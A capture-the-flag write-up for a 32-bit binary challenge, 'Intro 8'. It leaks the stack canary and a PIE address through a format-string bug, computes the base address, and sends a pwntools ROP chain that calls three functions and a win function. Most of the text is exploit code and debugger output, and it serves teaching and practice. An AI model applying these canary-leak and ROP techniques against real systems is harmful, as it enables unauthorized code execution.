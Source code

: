 # Intro 8

32 bit full securities 

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

The new part of this challenge is that we have multiple functions

![](pics/1.png)

Each function takes parameter

![](pics/2.png)

and the final win function that we want to call makes sure all those functions have had the correct parameter 

![](pics/3.png)

Okay. So its full securities so first we need to bypass the stack canary.

Using the same fuzz script as before and looking for the "00" ending

```Offset 19 has b'0xba86f700'``` after multiple runs 19 is ending in 00.

Once again You can check this in GDB

```
pwndbg> canary
AT_RANDOM = 0xffb2520b # points to (not masked) global canary value
Canary    = 0x7f2fa300 (may be incorrect on != glibc)
```

in my script 
```
io.sendline(b'%19$p %3$p')
leaks = io.recv().strip().split(b'?',1)[1]
canary = int(leaks,16)
success(f"leaked canary {hex(canary)}")
```

```
[+] leaked canary 0x7f2fa300
```

Now that we can leak the canary we can jump to any address, but because PIE is enabled we still need to leak an address and get the base address from that.

looking at the output from fuzz.py

offset 3 looked promising ```Offset 3 has b'0x565573b5'```

```
pwndbg> x/s 0x565563b5
0x565563b5 <vuln+16>:	"\201\303\003,"
```

The leak is "vuln+16"

Another way I've used to get the base address is using the "libs" command


```
0x56555000 0x56556000 r--p     1000 0      /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56556000 0x56557000 r-xp     1000 1000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56557000 0x56558000 r--p     1000 2000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56558000 0x56559000 r--p     1000 2000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56559000 0x5655a000 rw-p     1000 3000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0xf7db9000 0xf7dd2000 r--p    19000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7dd2000 0xf7f27000 r-xp   155000 19000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f27000 0xf7f9b000 r--p    74000 16e000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9b000 0xf7f9c000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9c000 0xf7f9e000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9e000 0xf7f9f000 rw-p     1000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9f000 0xf7fa2000 rw-p     3000 0      [anon_f7f9f]
0xf7fca000 0xf7fcc000 rw-p     2000 0      [anon_f7fca]
0xf7fcc000 0xf7fd0000 r--p     4000 0      [vvar]
0xf7fd0000 0xf7fd2000 r-xp     2000 0      [vdso]
0xf7fd2000 0xf7fd3000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd3000 0xf7ff0000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff0000 0xf7ffb000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 2a000  /usr/lib/i386-linux-gnu/ld-2.31.so
```

The top left address is the base address

```
pwndbg> x/s 0x56555000
0x56555000:	"\177ELF\001\001\001"
```

0x565563b5 - 0x56555000
leak - base = 0x13b5

So we can get the leak by taking "0x13b5" from the leak.

Updating the base address for pwntools ROP function lets us call the 3 functions and the win function easily 

```
# Rop chain:
rop.func1(0x1337)
rop.func2(0xcafef00d)
rop.func3(0xd00df00d)
rop.win()
payload += rop.chain()
io.sendline(payload)
```

![](pics/4.png)
